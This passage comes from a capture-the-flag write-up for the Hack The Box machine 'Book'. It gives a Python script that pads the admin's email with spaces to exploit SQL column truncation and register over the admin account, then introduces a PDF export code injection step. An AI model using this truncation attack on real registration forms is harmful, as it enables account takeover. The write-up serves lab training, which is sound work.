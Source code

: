 ![admin area](images/book/adminarea.png)

Alternatively, a simple python script does the job as well.

```
import requests

url = "http://10.10.10.176/index.php"
admin_email = 'admin@book.htb'
password = '123456789'
target_length = 20
padding = target_length - len(admin_email)
payload = admin_email + ' ' * padding + 'a'

post_data = {'name': 'goodyguy',
			'email': payload,
			'password': password }

x = requests.post(url, data = post_data)
```

## PDF Export Code Injection

Earlier, we spotted an upload function in the **Collections section of the user account**. Upload functions are always worth scrutinizing.
